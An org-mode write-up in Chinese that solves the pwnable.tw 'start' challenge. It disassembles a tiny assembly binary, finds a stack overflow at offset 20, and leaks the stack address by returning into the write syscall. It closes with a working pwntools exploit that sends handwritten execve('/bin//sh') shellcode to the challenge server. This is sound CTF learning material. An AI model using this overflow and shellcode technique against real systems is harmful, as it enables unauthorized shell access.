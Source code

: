 #+TITLE: pwnable.tw 之 start
** 分析
运行一下：

#+BEGIN_SRC 
➜  Desktop ./start 
Let's start the CTF:123456
#+END_SRC

输出“Let's start the CTF:”，然后让你输入。
ltrace一下

#+BEGIN_SRC 
➜  Desktop ltrace ./start 
Couldn't find .dynsym or .dynstr in "/proc/5532/exe"
#+END_SRC

并没有什么卵用。。

#+BEGIN_SRC 
Symbol table '.symtab' contains 8 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 08048060     0 SECTION LOCAL  DEFAULT    1 
     2: 00000000     0 FILE    LOCAL  DEFAULT  ABS start.s
     3: 0804809d     0 NOTYPE  LOCAL  DEFAULT    1 _exit
     4: 08048060     0 NOTYPE  GLOBAL DEFAULT    1 _start
     5: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 __bss_start
     6: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 _edata
     7: 080490a4     0 NOTYPE  GLOBAL DEFAULT    1 _end
#+END_SRC

连main都没有。。看来貌似是汇编写的。。丢r2里看一下

#+BEGIN_SRC assembly
   ;      [0] va=0x08048060 pa=0x00000060 sz=67 vsz=67 rwx=-r-x .text
            ;-- section..text:
            0x08048060    54           push esp
            0x08048061    689d800408   push sym._exit ; 0x0804809d 
            0x08048066    31c0         xor eax, eax
            0x08048068    31db         xor ebx, ebx
            0x0804806a    31c9         xor ecx, ecx
            0x0804806c    31d2         xor edx, edx
            0x0804806e    684354463a   push 0x3a465443 ; 0x3a465443 
            0x08048073    6874686520   push 0x20656874 ; 0x20656874 
            0x08048078    6861727420   push 0x20747261 ; 0x20747261 
            0x0804807d    6873207374   push 0x74732073 ; 0x74732073 
            0x08048082    684c657427   push 0x2774654c ; 0x2774654c 
            0x08048087    89e1         mov ecx, esp
            0x08048089    b214         mov dl, 0x14
            0x0804808b    b301         mov bl, 0x1
            0x0804808d    b004         mov al, 0x4
            0x0804808f    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048091    31db         xor ebx, ebx
            0x08048093    b23c         mov dl, 0x3c
            0x08048095    b003         mov al, 0x3
            0x08048097    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048099    83c414       add esp, 0x14
            0x0804809c    c3           ret
            ;-- sym._exit:
            0x0804809d    5c           pop esp
            0x0804809e    31c0         xor eax, eax
            0x080480a0    40           inc eax
            0x080480a1    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
#+END_SRC

重点是这里
#+BEGIN_SRC assembly
            0x08048087    89e1         mov ecx, esp
            0x08048089    b214         mov dl, 0x14
            0x0804808b    b301         mov bl, 0x1
            0x0804808d    b004         mov al, 0x4
            0x0804808f    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048091    31db         xor ebx, ebx
            0x08048093    b23c         mov dl, 0x3c
            0x08048095    b003         mov al, 0x3
            0x08048097    cd80         int 0x80
#+END_SRC

它调用了2个系统调用一个是4，一个是3，查了一下4的那个是write，3的那个是read。
系统调用的参数是依次放在ebx,ecx,edx...中的。也就是说上边2个系统调用用c写就是这样

#+BEGIN_SRC c
write(1,$esp,0x14);
read(0,$esp,0x3c);
#+END_SRC

那么很明显存在溢出。
用gdb调试下

[[./img/start1.png]]

可以看到在此时栈内就是输入的那段话。
然后会使用write系统调用输出它。

[[./img/start2.png]]

接下来会调用read从标准输入里读0x3c字节到栈里。
我们用pwn cyclic 生成60字节的数据读到栈里。
发现原来的已经被我们的数据覆盖了。

[[./img/start3.png]]
[[./img/start4.png]]

接下来就会报错。是在offset为20的地方。

[[./img/start5.png]]

然后发现原来那个 0x804809d 竟然是返回地址 Σ(っ °Д °;)っ。
所以我就想能不把eip劫持到栈上去执行我们的shellcode。。但是checksec看一下，是开了NX的。。
但是汇编写的还是静态编译。ret2libc不行rop链也找不到。。
然后我就不会了。。
网上查了下。。虽然开了NX但是栈上是可执行的 ∑(°Д°≡°Д°)。
那么就简单了。我们可以通过在 0x08048087 上的~mov ecx esp~,把esp的地址leak出来。
因为当你ret到0x08048087时，esp上前4个字节就是_start()一开始push进去的esp。
然后程序会再次执行~write(1,esp,0x14)~前4个字节就是我们需要的esp的地址。
我们再让read读'a'*20+esp_addr-20+shellcode到esp处就能执行我们的shellcode。
然后我发现貌似pwntools的shellcode不能用。。不知道为什么。那么只能自己写了。
** exp
#+BEGIN_SRC python

from  pwn import *
#context.binary='./start'
shellcode = asm(
    '''
xor ecx,ecx
xor edx,edx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
mov al,0xb
int 0x80
    '''
)
r = remote('chall.pwnable.tw',10000)
r.recv()
r.send('A'*20+'\x87\x80\x04\x08')
esp_addr = u32(r.recv(4))
print "esp_addr is :",hex(esp_addr)
#r.recv()
r.send('A'*20 + p32(esp_addr+20) + shellcode)#asm(shellcraft.sh())
r.interactive()

#+END_SRC
